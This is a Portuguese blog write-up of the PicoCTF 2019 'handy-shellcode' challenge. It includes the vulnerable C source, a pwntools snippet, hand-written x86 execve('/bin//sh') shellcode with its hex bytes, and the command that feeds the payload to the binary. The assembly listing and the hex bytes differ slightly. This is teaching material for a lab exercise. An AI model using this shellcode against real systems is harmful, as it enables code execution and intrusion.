```yaml
---
layout: post
title: Writeup Handy-Shellcode
author: "Felipe Brasileiro"
date: 2020-08-15 12:00:00 -0300
lide: Nesse post temos o Writeup do primeiro desafio de Binary Exploitation do PicoCTF2019. Esse desafio envolve a execução de um shellcode com o objetivo de ler o arquivo flag.txt
---
```


## Reconhecimento

![apresentação](https://i.imgur.com/9HcwxVg.png)

O desafio começa nos dando o binário que devemos explorar e seu código-fonte.

Ao executar o binário, ele nos pede um shellcode.

![executavel](https://i.imgur.com/t1LKFTX.png)

Pensei em colocar qualquer coisa no input para ver como que o binário iria se comportar e, de acordo com a resposta, esse programa tenta executar o que for colocado no input.

Analisando o código-fonte eu percebi que essa hipótese estava certa, já que o valor recebido é passado na variável **`buf`** em
**`((void (*)())buf)();`** e assim é executado.

> **Código-Fonte:**
>
> ```C
> #include <stdio.h>
> #include <stdlib.h>
> #include <string.h>
> #include <unistd.h>
> #include <sys/types.h>
> #define BUFSIZE 148
> #define FLAGSIZE 128
>
> void vuln(char *buf){
>  gets(buf);
>  puts(buf);
> }
>
> int main(int argc, char **argv){
>  setvbuf(stdout, NULL, _IONBF, 0);
>  // Set the gid to the effective gid
>  // this prevents /bin/sh from dropping the privileges
>  gid_t gid = getegid();
>  setresgid(gid, gid, gid);
>  char buf[BUFSIZE];
>  puts("Enter your shellcode:");
>
>  vuln(buf);
>
>  puts("Thanks! Executing now...");
>
>  ((void (*)())buf)();
>
>  puts("Finishing Executing Shellcode. Exiting now...");
>  return 0;
> }
> ```

Sendo assim, precisamos de um shellcode que, ao ser executado, leia o arquivo flag.txt ou "spawne" uma shell para em seguida lermos a flag.

## Exploração

Na aba de dicas do desafio tem escrito _"Você pode achar bons shellcodes online"_, mas existem outras formas de pegar um shellcode.

### 1. Utilizando pwntools

Uma das formas fáceis de pegar um shellcode é utilizando a biblioteca _**pwntools**_ do python como no seguinte exemplo:

```py
from pwn import *
f = open('payload1', 'wb')
f.write(asm(shellcraft.linux.sh()))
f.close()
```

Esse script vai gerar um shellcode que "spawna" a shell **/bin/sh** e o escrever no arquivo _payload1_

### 2. Criando um shellcode

Outra forma de resolver o desafio (e a mais divertida) é escrever seu próprio shellcode.
Nesse shellcode, eu utilizei a syscall **_execve_** para "spawnar" a shell e a syscall **_exit_** para terminar a execução do programa assim que fechar a shell.

```nasm
section .text
global _start:
_start:
    xor edx, edx            ; "Transforma" EDX em 0x00
    push edx                ; Empurra EDX para a Stack
    push sh                 ; Move hs// para a Stack
    push bin                ; Move nib/ para a Stack
    mov ebx, esp            ; Move ESP (/bin//sh) para EBX
    mov ecx, esp            ; Move ESP (/bin//sh) para ECX
    push edx                ; Empurra EDX (0x00) para a Stack
    push ebx                ; Empurra EBX (/bin//sh) para a Stack
    mov eax, 0x1234560c     ; Move 0x1234560c para EAX
    sub eax, 0x12345601     ; Subtrai 0x12345601 de EAX, resultando em 0xb <- Valor da syscall execve
    int 0x80                ; Chama a syscall
    xor eax, eax            ; "Transforma" EAX em 0x00
    inc eax                 ; Aumenta o valor de EAX em 0x1, resultando em 0x1 <- Valor da syscall exit
    xor ebx, ebx            ; "Transforma" EBX em 0x00
    int 0x80                ; Chama a syscall

sh: equ 0x68732f2f          ; em ascii => hs//   (//sh)
bin: equ 0x6e69622f         ; em ascii => nib/  (/bin)

```

O codigo em Assembly "gera" o seguinte shellcode:

> "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb8\x0c\x56\x34\x12\x2d\x01\x56\x34\x12\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80"

Escrevendo ele em um arquivo foi como feito com o pwntools, é possível "spawnar" a shell.

```py
shellcode = "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb8\x0c\x56\x34\x12\x2d\x01\x56\x34\x12\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80"
f = open('payload', 'wb')
f.write(shellcode)
f.close()
```

## Flag

Para executar o payload e conseguir interagir com a shell é necessário manter o fluxo no stdin
e para isso é preciso executar `(cat payload1; cat) | ./vuln`.

![flag](https://i.imgur.com/2YeiRrq.png)
